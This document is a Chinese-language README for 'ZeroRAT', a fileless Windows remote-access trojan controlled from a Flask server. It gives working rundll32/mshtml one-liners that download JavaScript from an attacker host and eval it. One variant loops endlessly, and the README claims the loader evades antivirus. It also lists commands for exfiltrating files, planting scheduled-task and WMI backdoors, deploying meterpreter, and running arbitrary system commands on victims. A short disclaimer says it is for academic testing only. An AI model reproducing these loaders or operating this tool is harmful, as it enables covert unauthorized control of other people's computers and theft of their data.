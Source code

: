 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<ip>:<port>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){window.close();}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： `http://<ip>:<port>/server/`

服务端支持的命令有

* `sessions`  列出活动的客户端
* `use <id>`  根据id选择客户端
* `set <key> <value>`    设置全局变量
* `show globals/downloads/uploads`  查看全局变量、客户端能下载的文件、客户端上传的文件
* `delete session`  删除当前客户端
* `delete download/upload <id>` 按照id删除文件
* `upfile`  上传文件到服务器，并添加到downloads列表
* `download`  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* `upload`  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器
* `backdoor tasks <time>`  利用windows任务计划留后门，时间格式为00：00
* `backdoor wmi`  利用wmi留后门，每一小时执行一次
* `meterpreter shellcode`  InstallUtil执行shellcode方式种meterpreter，需要先设置LHOST和LPORT(migrate之后才能继续接受命令，依赖.NET Framework 2.0)
* `meterpreter powershell`  Powershell方式种meterpreter(依赖powershell 1.0)

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/
flask==0.8

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

http://drops.wooyun.org/tips/8290

http://drops.wooyun.org/tips/12354

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

https://github.com/AlessandroZ/LaZagne

##免责声明
使用本工具请遵守当地法律，仅能用作学术测试使用，严禁非法控制他人计算机。如果造成损害，与作者无关。

##License
GPLV3

##TODO
* 完善命令
* 通信流量加密
